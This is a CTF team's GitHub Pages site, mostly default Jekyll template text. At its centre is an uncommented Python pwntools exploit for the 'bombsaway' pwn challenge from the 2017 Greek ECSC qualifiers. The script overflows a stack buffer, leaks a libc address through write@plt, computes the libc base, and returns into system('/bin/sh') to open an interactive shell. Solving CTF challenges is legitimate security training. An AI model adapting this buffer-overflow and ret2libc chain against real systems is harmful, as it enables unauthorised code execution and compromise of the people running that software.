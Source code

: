 ## Welcome to Fuzzer's Palace

You can use the [editor on GitHub](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Greek ECSC QUALS 2017-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
